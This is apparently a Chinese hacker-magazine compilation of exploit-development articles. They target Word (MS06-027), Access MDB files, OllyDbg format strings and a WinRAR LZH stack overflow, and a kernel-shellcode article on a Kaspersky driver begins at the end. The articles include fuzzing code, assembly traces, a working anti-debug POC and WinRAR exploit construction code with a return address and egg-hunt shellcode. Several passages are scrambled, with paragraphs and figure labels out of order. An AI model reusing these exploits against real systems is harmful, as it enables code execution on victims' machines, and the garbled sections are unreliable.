从 2003 年至 2007 年，Office 连续爆出了一系列的漏洞，也就是从那时起，人们逐渐将目光从远程服务溢出转向了客户端程序的溢出。现在 milw0rm 上平均每公布的 10 个溢出 POC 代码有 8 个都是客户端程序的溢出，其中甚至不乏杀毒软件这样的“安全产品”。Word 作为 Microsoft Office 系列产品中的主打产品，其安全性自然成了众多安全研究者所关注的焦点。从一开始的宏病毒发展到现在的溢出、对象指针漏洞，其危害性越来越大，许多企业的机密信息的泄露源也许就是员工收到的一封 E-mail 中夹带的附件。微软现在发布的安全公告也是越来越简洁明了了，例如对本文所要探究的 MS06-027，微软对其描述只有以下寥寥几句：

> Microsoft 安全公告 MS06-027  
> Microsoft Word 中的漏洞可能允许远程执行代码 (917336)  
> Microsoft Word 格式错误的对象指针漏洞 - CVD-2006-2492

这给漏洞研究者重现漏洞带来了很大的难度，本文就以 MS06-027 为例，利用手头上的一些资料来构造此类漏洞的 POC，给挖掘此类漏洞的研究者提供一些思路上的提示。

#### 踩点

单从微软的描述恐怕永远也构造不出样本，所以我还是得依靠搜索引擎来获得关于此漏洞的一些信息。在 Google 中以 MS 06 027 为关键字进行搜索，就能搜出很多条目，但大多数都只是微软公告的翻版。但我在绿盟的网站上还是找到了关于 06027 的一些资料，虽然很少，但很关键。

> 2006-06-13 Microsoft Word 畸形对象指针内存破坏漏洞（MS06-027）  
> NSFOCUS ID: 8842  
> 综述：Microsoft Word 打开 Word 文件时，在处理 smarttags 对象指针存在漏洞，远程攻击者可能利用此漏洞通过诱骗用户打开恶意 DOC 文件在用户机器上执行任意指令。

危害：远程攻击者可能利用此漏洞通过诱骗用户打开恶意 DOC 文件在用户机器上执行任意指令。从这个公告中，我们可以知道触发这个漏洞的关键词是 Smarttags，那么究竟什么是 Smarttags 呢？在 MSDN 上我搜索到了如图1所示的信息。为了照顾 E 文不好的兄弟，我就献丑翻译一下。
图5

洞来试试吧！

【本文涉及的代码（程序），请见随书光盘】
图1

大意就是说 Word 能智能识别文档中的一些人名（例如 Outlook 中的联系人）或者地名，然后自动弹出一个标签，可以方便用户给对方发电子邮件或者做一些处理。

要想成功利用这个漏洞，我们第一步就是要构造出一个包含 Smarttags 的 Word 文档。新建一个空白的 Word 文档，然后输入“John Smith”，回车，John Smith 下面就会出现紫色的虚线，这个时候保存出来的文档就包含了 Smarttags。如果没有出现，可以点击工具菜单中的自动更正选项，里面有个智能标记标签，复选所有人名有关的就可以了。Word 默认就会将 Smarttags 保存在 Word 文档里面，如图2所示。

既然是 Smarttags 对象畸形指针漏洞，那就应该 Fuzz 保存在 1Table 流中的 Smarttags 对象。下面是我写的 Fuzzing 代码，写得比较粗糙。

```c
for (DWORD offset = 0x2ab0; offset < 0x3400; offset+=4)
{
  // 从0x2ab0开始Fuzz，步进4字节，将文件内容复制到ccl中，ccl是申请的一片内存空间
  memcpy(ccl, content, filesize);
  // 每次修改4字节
  for( int x =0 ; x<4 ;x++)
    ccl[offset+x]=0xEE;
  // 写出修改后的文件
  memset(name,0,20);
  sprintf(name,"%d.doc",count);
  hcc1 = CreateFile(name,GENERIC_WRITE,0,NULL,CREATE_ALWAYS,0,NULL);
  WriteFile(hcc1,(LPCVOID)ccl,filesize,&dwWritten,NULL);
  CloseHandle(hcc1);
  count++;
}


```
图2

到此，POC 的构造已经完成了 20%，从现有的信息我们仅仅知道 Word 在处理 Smarttags 对象上存在问题，究竟是什么问题我们一无所知，但基本可以肯定不是简单的栈溢出。这时，本文的主题 fuzzing 就开始发挥作用了。

第一次 Fuzz 生成了 103 个 doc，一个个打开看看，反正不是太多，^-^！当打开到 103 个的时候，Word 终于崩溃了，如图3所示。
图3

#### Fuzz

何为 Fuzz？根据笔者肤浅的理解，就是一种黑盒测试的方法。通过给应用程序提交畸形的参数来观察应用程序的反应。一些协议 fuzzer 相对来说容易实现一点，对于文件格式来说，不是所有的格式都适合去 Fuzz，而且在技巧上也更为讲究，填充什么东西，每次填充多少字节，从什么地方开始，都是很值得研究的东西。Word 是一种复合的二进制文档，其文档格式是比较适合 Fuzz 的。在这之前，我们需要对 Word 文档格式有一个宏观的了解。

可惜是个内存违规访问，基本是 UnExploitable 那一类的。看来再往下 fuzz 也不是明智的选择，只能扩大 Fuzz 的范围了。事实证明了我后来的猜想是正确的。下面 Fuzz 的过程我就不再赘述了，直接给出答案：应该 Fuzz WordDocument 这个流，从 0x632 开始的 4 个字节改成 0xEE 后，Word 就会崩溃，如图4和图5所示。
图4

Word 的对象有两种，要么是 Storage，要么是 Stream，前者相当于文件夹，后者相当于文件。WordDocument 流是以一个 FIB（File Information Block）开头的，记录了 Word 文档里面保存的对象。一开始我是这样考虑的：既然是 Smarttags 对象畸形指针漏洞，那就应该优先关注对应流中的对象结构。

#### 尝试利用

呵呵，颇有点“千里之堤，溃于蚁穴”的味道，如此庞大的一个应用程序居然修改了 4 个字节之后就崩溃了。301AC0F9 处的 “CALL DWORD PTR DS:[ECX+14]” 的内存违规访问导致了 Word 的崩溃。

图5

在填充了4个 `0x125AA8` 之后，EIP 跳回了 `00125AA8`，由于 `00125AA8` 是 NOP-Like 指令，所以顺利跳入了我们的 ShellCode，如图8所示。

图8

我们可以控制 ECX 寄存器的话，那不就可以执行我们的 ShellCode 了吗？这儿从 OD 中看似乎 ECX 寄存器是不可控制的，是一个随机数，为此我也郁闷了很久。后来使用 SoftIce 调试以后才发现 ECX 是可控的。ECX 是通过 EAX 寻址的，SoftIce 下 EAX 指向的是 `0x125AA8`，`D EAX` 一下，看看 EAX 指向的内容，如图6所示。

图6

可以发现这时候 `0x125AA8` 周围的内容都是来自 Word 文档的内容，大家可以对比图7中 Word 文档的内容。`0x125AA8` 此时是 `0x00000000`，肯定会引起崩溃。那么怎样去控制 ECX 寄存器呢？我们可以在 `0x125AA8` 处填充 `0x125AA8` 这个地址，`0x125AA8+0x14=0x125ABC`，在 `CALL DWORD PTR DS:[ECX+14]` 之后，EIP 就跳到了 `0x125ABC` 所指向的地址，而此时堆栈中的内容是我们可以控制的，如图7所示。

图7

#### 总结

考虑到这类漏洞的危害性，利用程序我暂时就不公布了，有兴趣的读者可以在样本的基础上自行修改。我想也不是什么难事。这里我可以给大家一些思路上的提示：由于 WordDocument 流中不可能放入大的 ShellCode，也许会破坏 Word 文档的结构，所以只能采取 Egg-Hunt 的方法，就是小 ShellCode 找大 ShellCode。复杂的功能可以放在大 ShellCode 中实现。看到 WinWord.exe 的 CPU 占用率变成了 100%，心中的一块巨石也算落地了。对 MS06-027 的调试前后经历了一个多星期。本文主要介绍了在没有 POC 的情况下如何利用一些已公开漏洞的方法和心得，并给出了相关实例，希望对感兴趣的朋友能起到抛砖引玉的作用。我的博客 http://www.gyzy.org 以后会陆续放出一些微软漏洞的 POC 代码，感兴趣的读者可以关注一下。

文章写得比较仓促，错误疏漏在所难免，敬请广大读者指正，有任何问题来我的博客留言：http://www.gyzy.org 。

> 【本文涉及的代码（程序），请见随书光盘】

### 重组 MDB File 文件漏洞

文／图 Xia0&Cutter

话说 Windows 系统初开时，MDB 文件就被微软视为和 PE 文件一样邪恶，向世人告知千万不要随意点击 `.mdb` 文件，否则后果自负。所以它的漏洞 MS 是从来没有 patch 过的。直到 2007 年年底一个月黑风高的夜晚，一个名叫 officeExp 的人，发现了一种新的利用方法，将 MDB 文件和 WORD 文件紧密结合在一起，分别赐名倚天 MDB 和屠龙 DOC，通杀 Office 所有版本。MS 展开攻势，先是口头警告，结果丝毫没有减缓倚天和屠龙一统江湖的步伐，最后 MS 不得不启动最后的绝招。在 MS08-026 偷偷地 patch 后，OfficeExp 及其追随者认为不会发动第二次攻击。最后倚天和屠龙赢得了他们应有的荣誉，MS 迫于压力，无奈地承认这个事实，最终发布了 MS08-028。

在分析 MDB File 漏洞之前，已经有一些朋友做过这方面的工作，这些工作为我们的分析提供了很大的帮助，所以该漏洞如何利用就不叙述了，大家可以参考 2008 年《黑客防线》第 2 期《浅析 Microsoft Jet Engine MDB File 溢出漏洞》一文。这篇文章在分析漏洞触发原因上笔墨很少，在这里我们将 Fuzz 技术与逆向分析结合，一步一步重现这个漏洞，看一下我们是如何与这个漏洞擦肩而过的，也算是对这篇文章的一点补充吧。

#### 样本分析，情景重现

网上流传的样本应该是通过 Fuzz 得到的，细心的朋友很容易看出问题所在：新建一个 `.mdb` 文档，在 `2032h` 处改为样本中提供的值 `EE EE`，如图1所示。

修改后运行该样本，ACCESS 挂掉，没有报错信息，应该是异常处理被覆盖了。Symantec 10.0 会查杀该样本，根据其提示信息是 CVE-2008-1092，可以看出 Symantec 对该漏洞报告很准确。大家再做一些分析，不难发现我们已经重现漏洞了，不过这不是这篇文章的重点，在此一笔带过。

#### FUZZ——寻找带颜色的雨滴

换一种思路，从 Fuzz 的角度看这个问题。假如是我们使用 FileFuzz 对新建的 MDB 文件 Fuzz，那么产生的样本数量是一万多个，而报错的信息也有几百条，我们能否从数量众多的错误报告中获得这个可利用的漏洞，或者仅仅是将它与其他的错误报告一起丢弃，成为我们一个失败的样本。

按照往常的习惯，首先会选用 `0xFF` 作为 Fuzz 数据，那么用 `0xFF` 作为 Fuzz 数据会出现什么情况呢？如图2所示。当一再面对这样的报错信息后，你我会一样地麻木，把它作为一个失败的 Fuzz 样本丢掉，然后去查看下一个错误信息。当然，现在我们知道这个错误离漏洞仅一步之遥，但在当时看来，这样的一个出错信息到一个可利用的漏洞是遥不可及的。下面我们进行详细的分析，看我们是如何错过这个漏洞的。

使用 Fuzz 数据（`0xFF`）进行计算的代码出现在 `msjet40.dll` 中，代码如下：

```asm
.text:1B00F573  mov ecx, [eax+2Bh]
.text:1B00F576  lea edx, [ecx+ecx*2]
.text:1B00F579  mov ecx, [esp+30h+arg_4]
.text:1B00F57D  lea ebx, [edx*4+37h]
.text:1B00F584  add eax, ebx
.text:1B00F586  push eax
.text:1B00F587  push ecx
.text:1B00F588  push edi
.text:1B00F589  mov ecx, esi
.text:1B00F58B  call sub_1B00F630
```

`Pdest=((0xXX*3)*4+37)+p`，由于文件映射到内存中的位置是相对的，所以 `p` 指针的值无关紧要。

接下来对即将调用的函数 `Sub_1B00F630` 进行分析。这个函数体并不大，注意两处关键代码：一处在 `Text:1B0B74B2` 处，完成功能是复制代码，如果我们可以控制复制大小或者复制目的地址等关键地方就可以覆盖返回地址，可能触发栈溢出，这是我们最想得到的结果；另外一处在复制代码之前，`Text:1B00F785`，决定能否跳转到复制流程。下面就这两处代码进行简要说明。

```asm
text:1B00F785 loc_0_1B00F785:
  movsx edx, word ptr [edi]
  mov ecx, [esi-0Ah]
  add edi, 2
  ; 如果满足 ecx 大于 0x2341 条件，则可以跳入复制代码中
  cmp ecx, 2341h
  lea eax, [esi-0Bh]
  mov [esp+0C8h+var_B8], edx
  mov [esp+0C8h+var_AC], edi
  ja  loc_0_1B0B74
loc_1B0B74B2:
  mov ecx, edx
  mov esi, edi
  mov ebp, ecx
  lea edi, [esp+0C8h+var_88]
  shr ecx, 2
  rep movsd
  mov ecx, ebp
  mov eax, [eax+1]
  and ecx, 3
  rep movsb
```

```text
00 3a .9..0.#.0.#.C:
1105edec 00 5c 00 50 00 72 00 6f-00 67 00 72 00 61
00 6d  .\P.r.o.g.r.a.m
```

由我们提供的参数计算得到复制的大小：

`DWORD*PCopySize = Pdest + (0x11*5) + ((0x11*5)*4)`

随后将 `eax` 放入局部变量中。由前面的分析可知，复制大小就是 `[eax]` 的值 `0x2e003900`。第二处断在 `1b00f6ad` 位置，代码如下：

```asm
1b00f6ad 8b8c24d0000000  mov ecx,dword ptr [esp+0D0h]
1b00f6b4 8d710b          lea esi,[ecx+0Bh]
1b00f785 movsx edx, word ptr [edi]
1b00f788 mov ecx, [esi-0Ah]
1b00f78b add edi, 2
1b00f78e cmp ecx, 2341h
1b00f79f ja  loc_0_1B0B74
0:000> d esi-a
1105ec34 00 00 00 00 ...
1105ec54 00 00 00 00 ... 00 cc 61 6d 00 00 01
```

接下来我们分析遇到的两个问题：一是传递到该子函数中的参数是否可以影响程序运行至复制代码段并顺利溢出；二是如果该参数可以影响流程，需要怎样调整传入参数，才可以绕过检查。继续分析时，监视压入栈的指针并设置读断点（如 `ba r4 0012df50`），注意边界对齐。第一处断在 `1b00f65c` 处，代码如下：

```asm
1b00f65c 8bb424d0000000 mov esi,dword ptr [esp+0D0h]
1b00f663 0fbfc0         movsx eax,ax
; eax=0x00000011 为固定值
1b00f666 8d0480         lea eax,[eax+eax*4]
1b00f669 8d3486         lea esi,[esi+eax*4]
1b00f66c 03c6           add eax,esi
1b00f66e 66395521       cmp word ptr [ebp+21h],dx
1b00f672 8bf8           mov edi,eax
1b00f674 897c2418       mov dword ptr [esp+18h],edi
0:000> p
...
0:000> d eax
1105eddc 00 39 00 2e 00 30 00 23 ...
```

绕过检测的关键为：`Unsigned long*count = Pdest + 0xB - 0xA`。当 `[esi-A] = 0x00000000` 时无法跳入复制代码；这是传入参数异常导致函数失败并弹出无效数据库文件错误对话框。若构造合适的 Fuzz 值（如 `0xFE`），即可进入复制流程并进一步控制复制过程。

#### 总结

Fuzz 是目前漏洞挖掘的主要手段，但其报告信息通常较粗略，离问题代码仍有距离，需要较强的逆向分析功底来还原流程、构造 exploit。文中这类如 `mov ecx,eax; call [ecx+4]` 的问题并不少见。Fuzz 数据生成方案及其对结果的影响也十分关键，可参考《Fuzzing: Brute Force Vulnerability Discovery》。当前漏洞分析与挖掘面临新变革，传统利用方法受到挑战，但实践仍在推进。

### OllyDbg Format String 0Day

#### 分析与利用

文/图：8yVJ［江苏大学信息安全系&EST］

OllyDbg 作为一款 Ring3 下的调试器，凭借优异的性能博得了广大破解爱好者的一致肯定。但就在最近，milw0rm 上公布了一个 OD 0day 的 POC（OllyDbg v1.10 Local Format String Exploit）。以前写了很多栈溢出的漏洞，却很少有 Format String 的漏洞，这次 OD 给我们提供了一个熟悉 Format String 问题的机会（只有原版的 OD 存在此问题，看雪论坛的修改版 OllyIce 不存在此问题）。

可能大家对格式化串漏洞不太熟悉，格式化串其实也是很严重的漏洞，轻则泄露敏感信息，重则可以导致执行任意代码。这次 OD 出现的问题就是对格式化串过滤不严，间接导致了缓冲区溢出的发生，保存在栈中的返回地址被覆盖。那么，哪些函数会引起格式化串漏洞呢？`printf`、`fprintf`、`sprintf`、`snprintf`、`vfprintf`、`vprintf`、`vsprintf` 和 `vsnprintf` 这些库函数就可能导致此类漏洞。我们先来看一个简单的例子，代码如下。

```c
#include <stdio.h>
#include <stdlib.h>
int main( int argc, char *argv[] )
{
    if( argc != 2 )
    {
        printf("输入一个字符串\n");
        return 1;
    }
    printf( argv[1] );
    printf( "\n" );
    return 0;
}
```

程序很简单，就是打印程序的参数，比如参数为“Hello,world”，那么程序就会输出“Hello,world”。假如我们输入的是“%d”又会怎么样呢？结果如图1所示。4198693 是十进制，十六进制就是 `401125`。正常打印一个十进制数值应该是带参数的，比如 `printf("%d", i)`，`i` 就是一个整型变量。这里我们省略了后者，当所有参数压栈完毕调用 `printf` 函数的时候，`printf` 并不能检查参数的正确性，只是机械式地从栈中取值作为参数，也就是我们看到的 4198693。这个时候堆栈就被破坏了，栈中的信息就泄露了（比如密码一类敏感信息的安全这时候就受到了威胁）。这只是一个简单的例子，现实中可能并不存在这样的漏洞，但却揭示了格式化串问题的严重性。假如提供的参数是“`%n`”并经过精心构造的话，可以导致往任意内存地址写数据，这也就意味着可以使存在漏洞的程序执行我们提交的任意代码。

图1

OD 这一次出现问题的函数并不是 `printf`，而是 `sprintf`。尽管 OD 已经对 `OutputDebugString` 输出的字符串进行了长度检查，只接受 255 个字节，但是由于没有对提供的参数进行检查，所以间接导致了缓冲区的溢出。我简单模拟了出现问题的代码，具体如下。

```c
#include <stdio.h>
void fun()
{
    char para[10];
    sprintf(para, "%12uAAAAAAAAAAAAAAAAAAAAAA");
}
void main()
{
    fun();
}
```

这段代码关键之处在于“`%12u`”表示把显示的无符号整数扩展成 12 位，不足位以空格补足。由于 `para` 参数只有 10 个字节，所以保存在栈中的返回地址会被我们提供的 AAAA 覆盖，结果如图2所示。

只要我们恶意调用 `OutputDebugString` 函数，就可以使 OD 的 EIP 被我们提交的数据覆盖。例如 `OutputDebugString("%4602d\x90\x90......")`。我们构造这样的一个字符串输出，看看 OD 的反应，结果如图3所示。`%4602d` 表示将字符串扩展成 4602 个字节，呵呵，够长吧？格式串引发了缓冲区溢出。这个漏洞总给人感觉是鸡肋，没什么利用价值，不过用做一种反调试的手段也算可以，可以让 OD 进入死循环。以下是我修改过的用做反调试的 POC 代码，ShellCode 就是简单的跳转指令。

图2

```c
#include <windows.h>
#include <stdio.h>
#define FORMAT_STRING "..."
#pragma comment(linker, "/ENTRY:WinMain")

char shellcode[] = "\xEB\xFE";
int WINAPI WinMain(HINSTANCE hInstance,
                   HINSTANCE hPrevInstance,
                   LPSTR lpCmdLine,
                   int nCmdShow)
{
    char* pszEvilBuffer;
    ULONG ulEvilBufSize;
    DWORD dwRetAddr = 0x7FFFA512;

    ulEvilBufSize = sizeof(FORMAT_STRING) + sizeof(dwRetAddr) + sizeof(shellcode);
    pszEvilBuffer = (char*)malloc(ulEvilBufSize);
    memset(pszEvilBuffer, 0x90, ulEvilBufSize);

    int i = 0;
    memcpy(pszEvilBuffer + i, FORMAT_STRING, sizeof(FORMAT_STRING)-1);
    i += sizeof(FORMAT_STRING)-1;
    memcpy(pszEvilBuffer + i, &dwRetAddr, sizeof(dwRetAddr));
    i += sizeof(dwRetAddr);
    memcpy(pszEvilBuffer + i, shellcode, sizeof(shellcode)-1);

    // 输出到调试字符串
    OutputDebugString(pszEvilBuffer);
    free(pszEvilBuffer);
    return 0;
}
```

图3

我们可以用 OllyIce 来调试原版的 OD。原版 OD 再运行被调试程序（怎么有点像无间道），简单地跟踪以后，最终定位出问题的代码。由于栈中 `0012DA90` 保存的返回地址被覆盖，`0042E258` 处的 `RETN` 指令将导致 EIP 被控制，如图4所示。在 OD 中给 `0012DA8C` 下硬断，看究竟是什么地方覆盖了 `0012DA90` 处的值，结果定位到如下指令将 `0012DA90` 处的返回地址给覆盖了。

我们用 OD 调试一下看看效果，结果如图5所示。OD 的 CPU 占用率达到 100% 了（我的机子是双核，所以是 50%），有兴趣的读者朋友还可以修改 ShellCode，不过长度不能超过 255 字节。

图4

图5

```asm
004A353D  | B84D10             | MOV ECX,[ARG.3]
004A3540  | 8BD1               | MOV EDX,ECX
004A3542  | D1E9               | SHR ECX,1
004A3544  | D1D9               | RCR ECX,1
004A3546  | FC                 | CLD
004A3547  | F3:A5              | REP MOVS DWORD PTR ES:[EDI],DWORD PTR DS:[ESI]


```

从这段代码可以看出来，导致错误的原因很明显。OD 只对 `OutputDebugString` 输出的长度进行了检查，但是却没有对内容进行过滤，使得里面的格式串……

本文介绍了针对已发布的 POC 进行改写利用的一些方法和心得，并给了相关实例，希望对感兴趣的朋友能起到抛砖引玉的作用。文章写得比较仓促，错误疏漏在所难免，敬请广大读者指正。有任何问题欢迎大家到黑客防线论坛或者我的博客 www.gyzy.org 留言讨论。

> 【本文涉及的代码（程序），详见随书光盘】

## WinRAR栈溢出分析和利用
文／图 gyzy[江苏大学信息安全系&EST]

近年来，针对客户端的攻击呈现出不断上升的趋势，微软的 Office 系列也爆出了一系列的漏洞。在上期的文章中就给大家介绍了如何在没有 POC 的情况下自己构造出并利用 Word 的畸形指针漏洞。这次要给大家介绍的是 2006 年的一个漏洞，WinRAR 在处理 LZH 压缩包的时候存在一个栈溢出。这个漏洞相比今年第 4 期的那个 WinRAR 7z 溢出要好利用，由于有相当一部分用户还是使用旧版本，还是很危险的。虽然网上已经出现了这个漏洞的 POC 代码，但正所谓“授人以鱼，不如授人以渔”，所以只有掌握了在没有 POC 的情况下如何自己构造并利用的技术，以后才能对漏洞利用游刃有余。……为了方便构造压缩包，我们先看看头的一些结构。

#### 重现漏洞

第一步还是需要了解这个文件格式，如果连格式都不了解，就更别谈利用了。一个 LZH 压缩包是 Header+Content 的形式，其中 Header 中指定一种压缩方式，Content 就是文件压缩后的内容。而 Header 又是由“基本头+Common Header+Extended Header*n”的形式组成的。LZH 的基本头又是分 Level 的（是不是有点晕，呵呵，感兴趣的读者可以自行阅读格式说明文档，已随文章提供），最简单的 Level 0 头如图 1 所示。

```c
//LZH Headers
typedef struct _lzh1Header{
    BYTE  BaseHeaderSize;
    BYTE  BaseHeaderCheckSum;
    char  CompressMethod[5];
    DWORD SkipSize;
    DWORD OriginalSize;
    WORD  LastModifiedTime;
    WORD  LastModifiedDate;
    BYTE  Reserved;
    BYTE  HeaderLevel;
    BYTE  LengthofFileName;
    WORD  CRC16;
    BYTE  OSID;
    WORD  SizeofNextExtendedHeader;
} LBaseHeader;   //level 1

typedef struct _lzh1Header2{
    BYTE  BaseHeaderSize;
    BYTE  BaseHeaderCheckSum;
    char  CompressMethod[5];
    DWORD SkipSize;
    DWORD OriginalSize;
    WORD  LastModifiedTime;
    WORD  LastModifiedDate;
    BYTE  Reserved;
    BYTE  HeaderLevel;
    BYTE  LengthofFileName;
    char  fileName[0xff-27];
    WORD  CRC16;
    BYTE  OSID;
    WORD  SizeofNextExtendedHeader;
} LBaseHeader2;  //level 1

typedef struct _commonheader{
    BYTE  ExHeaderId; //0x00
    WORD  CRCOfHeader;
    WORD  SizeofNextExtendedHeader;
} CommHeader;

typedef struct _filenameHeader{
    BYTE  ExHeaderId; //0x01
    char  filename[255];
    WORD  SizeofNextExtendedHeader;
} FileHeader;


```
图1

WinRAR 在处理带目录扩展头的时候存在调用 strcat 没有对字符串长度进行检查的缺陷，从而导致……

```c
typedef struct _directoryheader{
    BYTE ExHeaderId; //0x02
    char Directory[1020]; //0x3FF-3
    WORD SizeofNextExtendedHeader;
} DirHeader;

typedef struct _MSDOSHEADER{
    BYTE ExHeaderId; //0x40
    WORD FileAttr;
    WORD SizeofNextExtendedHeader;
} DosHeader;
```

为了方便说明，本文直接给出 LZH 栈溢出漏洞触发所需要构造的头。实际上我也是探索了很久才触发了这个漏洞，而且可能触发的方式也不止这一种，有兴趣的读者可以自行探索。需要构造的头的结构为 `LBaseHeader+DirHeader+DosHeader+CommHeader+LBaseHeader2+DirHeader+CommHeader+Content`，将上面的数据结构对照格式资料全部写出来，一个可以触发漏洞的压缩包就构造完成了，其中填充 Header 部分的代码如下。

```c
LBaseHeader vul; // 带目录的基本头
vul.BaseHeaderSize = 0x19;
vul.BaseHeaderCheckSum = 0x2A;
strcpy(vul.CompressMethod, "-lhd-");
vul.SkipSize = 0x17;
vul.OriginalSize = 0x00;
vul.LastModifiedTime = 0xB429;
vul.LastModifiedDate = 0x34F5;
vul.Reserved = 0x20;
vul.HeaderLevel = 0x01;
vul.LengthofFileName = 0x00;
vul.CRC16 = 0x00;
vul.OSID = 0x4D;
vul.SizeofNextExtendedHeader = 0x3FF;

DirHeader dir;
dir.ExHeaderId = 0x02;
for (int i = 0; i < 1020; i++)
    memset(dir.Directory + i, 0x01 + i % 254, 1);
dir.Directory[0] = 0xFF;
dir.Directory[1019] = 0xFF;
dir.SizeofNextExtendedHeader = 0x05;

DosHeader dh;
dh.ExHeaderId = 0x40;
dh.FileAttr = 0x10;
dh.SizeofNextExtendedHeader = 0x05;

CommHeader ch;
ch.ExHeaderId = 0x00;
ch.CRCOfHeader = 0xEC89;
ch.SizeofNextExtendedHeader = 0x00;
LBaseHeader2 part2;
```

```c
part2.BaseHeaderSize = 0xFF;
// 这次的头大小要调整
part2.BaseHeaderCheckSum = 0x2A;
// 校验和也有待调整
strcpy(part2.CompressMethod, "-lh0-");
// 不进行压缩
part2.SkipSize = 0x17;
// skip size unassigned
part2.OriginalSize = (DWORD)strlen("RAR");
part2.LastModifiedTime = 0xB429;
part2.LastModifiedDate = 0x34F5;
part2.Reserved = 0x20;
part2.HeaderLevel = 0x01;
part2.LengthofFileName = 0xFF - 25;
memset(part2.fileName, 0x90, 0xFF - 25);
part2.CRC16 = 0xD9BE;
// CRC 校验有待调整
part2.OSID = 0x4D;
part2.SizeofNextExtendedHeader = 0x3FF;
// 0x3FF = 1023

DirHeader dir2;
dir2.ExHeaderId = 0x02;
memset(dir2.Directory, 0x90, 1020);
dir2.SizeofNextExtendedHeader = 0x05;

CommHeader ch2;
ch2.ExHeaderId = 0x00;
ch2.CRCOfHeader = 0xEC89;
// CRC 校验有待调整
ch2.SizeofNextExtendedHeader = 0x00;


```

#### 尝试利用

接下来就是溢出点的定位，这里就略过这一步，不熟悉的读者可以自行查阅黑防以前的文章。溢出点就在 `part2.fileName[20]` 的地方，将这个地方覆盖成经典的 `JMP ESP` 地址 `0x7FFA4512`，`EIP` 就会跳回堆栈，后面可以跟 ShellCode。因为文件名长度总共就 `0xFF-25=230` 字节，再减去 4 字节的返回地址，就剩下了 226 字节，也就是 ShellCode 最好短于 226 字节。但是这只是我的猜测，事实上这的文件名只能容纳 26 字节，如图 2 所示。文件名里面我填充的是 `0x90`，DirHeader 里面填充的是 `0x41`，图中两者的分界点很明显。
图2

```c
memset(part2.fileName, 0x90, 0xFF-25);
memcpy(part2.fileName + 20, &overflowpoint, 4);
// 将溢出点设为 0x7FFA4512
memcpy(part2.fileName + 24, searchcode, sizeof(searchcode)-1);

memset(dir2.Directory, 0x41, 1020);
memcpy(dir2.Directory + 351, "\x85", 1);
// 放置 ShellCode 开始标记，下面会用到
memcpy(dir2.Directory + 352, shellcode, sizeof(shellcode)-1);


```

万一 ShellCode 超长了问题也不大，可以放到下面的 DirHeader 里面，或者就是文件名里面放一个 Egg-Hunt 的 ShellCode，让它搜索放在 Dir2 里的大 ShellCode 即可。这个漏洞有一点特殊，放在 Dir 里面的 ShellCode 中不允许出现 `0xFF`，所有的 `0xFF` 都会被转换成 `0x5C`，但是 ShellCode 几乎不可避免会有 `0xFF`，很多跳转指令都会用到，如图 3 所示。
图3

我使用的下载执行的 ShellCode 就是放在那里，解码头中有 3 个连续的 `0xFF`，幸好其他地方没有，不然更麻烦。读者可以参考我的做法，方便填充自己功能更为强大的 ShellCode。以下是放在 filename 中的负责搜索的大 ShellCode，这里可以有 `0xFF`。

```c
__asm
{
mov edi, esp  // 从当前栈地址开始往下搜索ShellCode
mov al, 0x65  // 避免里面出现0x85，esp是低于当前EIP的
add al, 0x20
search:
scasb  // 比较eax和edi
jz over
jmp search
over:
push 03
pop ecx
mov dl, 0x14
ad:
add byte ptr [edi+edx], 0xA3
// 将ShellCode解码头出现的3个0x5C加上A3还原成0xFF
inc edx
loop ad
jmp edi  // 跳转至ShellCode
}


```

这也算是这个漏洞利用的唯一一个难点，对于聪明的读者应该算不上什么，这里我只是简单使用了一种。对于 `0xFF` 比较多的情况，感兴趣的读者还可以用其他的方法：一是搜索堆栈中未被转换的原始 ShellCode；二是编写一个短小的搜索代码还原其中的 `0xFF`；三是用短小的 ShellCode 从文件中读出大 ShellCode 至内存再执行。

现在重新生成一个压缩包，测试成功，如图 4 所示。
图4

完整的利用代码可以在黑客防线官方网站下载到，读者朋友可以自行修改。本文只是一个教学例子，所以 ShellCode 使用的是下载执行的，这在实际利用中有很大的局限性：一是面临防火墙的拦截，WinRAR 默认是不允许访问网络的；二是这个 ShellCode 会被大部分的 HIPS 检测到缓冲区溢出的存在，卡巴也能。市面上大部分的 HIPS 都是通过 Hook 了一些关键函数，如 GetProcAddress、LoadLibrary 等，检测其是否运行在栈区来判断是否发生了缓冲区溢出。事实上绕过并不是不可能，以后几期的《黑客防线》杂志会有这样的文章，还是以 WinRAR 作为例子，请读者朋友耐心等待。另外，Dir2 里有个 CRC 校验值，如果校验正确的话，WinRAR 是没有出错框的，再加上还原正常压缩包再打开的 ShellCode，就可以杀人于无形了。这个漏洞只对 WinRAR 3.0–3.6 beta6 有效，但是国内用户普遍安全意识很差，还有很多人在使用旧版本的 WinRAR。

#### 小结

本文介绍了针对未发布 POC 的情况下进行构造利用的一些方法和心得，并给了相关实例，希望对感兴趣的朋友能起到抛砖引玉的作用。文章写得比较仓促，错误疏漏在所难免，敬请广大读者指正。

【本文涉及的代码（程序），请见随书光盘】

### 从卡巴漏洞管窥内核模式

### ShellCode的编写
文／图 gyzy[江苏大学信息安全系&EST]

在用户态（Ring3）下存在的种种漏洞在内核态（Ring0）下一样存在，并且有些漏洞在用户态下反而比较少见。比较典型的例子就是 DeviceIoControl 畸形参数这一类的漏洞。用户态的 Exploit 技术是内核 Exploit 技术的基础，假如连用户态下 Exploit 的一些概念还不是很清楚的话，建议读者先了解一下用户态的 Exploit 和 ShellCode 技术。这两者虽然相似，但还是有很大的不同，在内核态下不像用户态下有丰富的 API 接口函数可供调用，并且要求也更高，一不小心就会导致蓝屏。网上有很多介绍驱动本地权限提升漏洞的文章，但对于写可用的 ShellCode 这个问题就都回避了。这次我以卡巴 NDIS-TDI Hook 驱动（Klick.sys）的畸形参数漏洞为蓝本，详细讲述一下如何编写能在内核下运行的 ShellCode。KIS/KAV 6.0.0.0-6.0.0.307 均存在此漏洞，测试的时候注意版本。在开始之前，先来介绍一下要用到的背景知识。

#### 背景知识

